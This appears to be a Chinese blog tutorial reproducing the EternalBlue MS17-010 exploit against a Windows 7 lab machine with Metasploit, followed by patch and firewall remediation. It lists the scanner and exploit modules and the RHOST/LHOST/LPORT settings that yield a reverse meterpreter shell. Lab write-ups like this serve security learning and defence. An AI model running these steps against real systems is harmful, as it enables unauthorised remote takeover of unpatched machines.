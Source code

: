 ```yaml
---
title: windows7系统下的永恒之蓝MS17-010漏洞简单复现
date: 2019-08-17 11:23:43
categories: 大Kali
tags: 漏洞复现
---
```

## 一：漏洞简介
#### 1.漏洞描述：
永恒之蓝通过TCP端口445和139来利用远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。
#### 2.漏洞影响：
目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。普遍得很，只要不做相应防护措施，就容易中招。。。

## 二：漏洞复现
#### 1：环境准备
攻击机： Kali         IP：192.168.88.129
![kali](windows7系统下的永恒之蓝MS17-010漏洞简单复现/kali.png)
靶机： windows7  　　　IP：192.168.88.131
![windows7](windows7系统下的永恒之蓝MS17-010漏洞简单复现/靶机.png)
#### 2：信息收集
metasploit启动，这里使用nmap扫描端口：
![metasploit启动](windows7系统下的永恒之蓝MS17-010漏洞简单复现/metasploit启动.png)
![nmap扫端口](windows7系统下的永恒之蓝MS17-010漏洞简单复现/nmap扫端口.png)
该有的端口都开了，可以尝试使用ms17-010（永恒之蓝）来攻击。
#### 3.尝试攻击
##### （1）查看漏洞模块——search ms17-010
![搜索模块](windows7系统下的永恒之蓝MS17-010漏洞简单复现/搜索模块.png)
##### （2）先使用辅助扫描模块测试 use auxiliary/scanner/smb/smb_ms17_010
扫描结果显示该主机很容易受到ms17-010的攻击
![先使用辅助扫描模块测试](windows7系统下的永恒之蓝MS17-010漏洞简单复现/先使用辅助扫描模块测试.png)
##### （3）再使用攻击模块进行攻击 use exploit/windows/smb/ms17_010_eternalblue
![使用攻击模块进行攻击](windows7系统下的永恒之蓝MS17-010漏洞简单复现/使用攻击模块进行攻击.png)
![设置host](windows7系统下的永恒之蓝MS17-010漏洞简单复现/设置host.png)
set payload ：设置payload
show options ：列出使用当前模块所需呀配置的参数
set RHOST ：设置要攻击的目标主机地址
set LHOST ：设置攻击机的地址，使目标主机回连至攻击机
set LPORT ：设置目标主机回连至攻击机的端口，默认为4444
run：开始攻击
攻击成功后攻击机和目标主机之间会建立一个连接，得到一个meterpreter会话
![反弹shell执行whoami](windows7系统下的永恒之蓝MS17-010漏洞简单复现/反弹shell执行whoami.png)
自上而下解释一下：
###### ①：表示永恒之蓝覆盖成功完成
###### ②：目标主机和攻击机建立了一个shell连接，会话为session 1
###### ③：得到一个meterpreter会话，尝试获取shell成功
###### ④：在meterpreter会话下输入whoami就能获得目标主机的信息
查看ip：
![查看ip](windows7系统下的永恒之蓝MS17-010漏洞简单复现/查看ip.png)
查看文件：
![查看文件](windows7系统下的永恒之蓝MS17-010漏洞简单复现/查看文件.png)

## 三：漏洞修复
#### 1、下载补丁地址 
http://www.catalog.update.microsoft.com/search.aspx?q=补丁编号 
（根据自己的系统版本在上图中查找补丁编号，如：http://www.catalog.update.microsoft.com/search.aspx?q=Windows） 
#### 2、添加入站规则
关闭445、135、137、138、139端口
